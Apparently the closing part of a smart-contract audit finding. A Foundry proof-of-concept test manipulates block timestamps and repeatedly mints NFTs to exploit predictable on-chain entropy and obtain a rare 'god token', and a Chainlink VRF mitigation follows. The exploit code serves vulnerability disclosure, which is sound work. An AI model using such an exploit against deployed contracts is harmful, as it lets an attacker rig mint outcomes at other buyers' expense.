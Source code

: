 ```javascript
      // uint256 numberIndexSelection = hashValue % 13;
      if (slotIndexSelection < 513) {
        break;
      }
      vm.warp(block.timestamp + 10);
    }

    //user1 mints 10001 token 1st token of gen 2
    uint256 balanceBefore = user1.balance;
    bytes32[] memory proof;
    //mint 1st token and get the generated slot and number indces
    nft.mintToken{ value: 1 ether }(proof);
    uint256 slotIndexSelectionPoint = entropy.slotIndexSelectionPoint();
    uint256 numberIndexSelectionPoint = entropy.numberIndexSelectionPoint();
    console2.log(slotIndexSelectionPoint);
    console2.log(numberIndexSelectionPoint);
    //using those indices mint untill you reach the desiered god token
    uint256 tokenId = nft.totalSupply();
    for (
      uint256 i;
      i < (slotIndexSelectionPoint + 1) * 13 + numberIndexSelectionPoint;
      i++
    ) {
      if (nft.getTokenEntropy(tokenId) == 999999) {
        break;
      }
      nft.mintToken{ value: 1 ether }(proof);
      tokenId++;
    }
    assertEq(nft.getTokenEntropy(tokenId), 999999);
    console2.log(balanceBefore - user1.balance); //689 102 774 500 000 000 000 /// too much eth needed
    console2.log(tokenId);
  }
  function mintTokens(uint256 iterations) external {
    bytes32[] memory proof;

    for (uint256 i = 0; i < iterations; i++) {
      nft.mintToken{ value: 1000000 ether }(proof);
      // uint256 entropyVal = nft.getTokenEntropy(i + 1);
      // if (entropyVal == 999999) {
      //   console2.log(i + 1);
      // }
    }
  }
```

## Tools Used
Manual Review
## Recommended Mitigation Steps
**Implement Chainlink VRF**: Use Chainlink VRF to generate cryptographically secure random numbers for initializing alpha indices. This ensures that the process is not predictable or manipulatable by users.
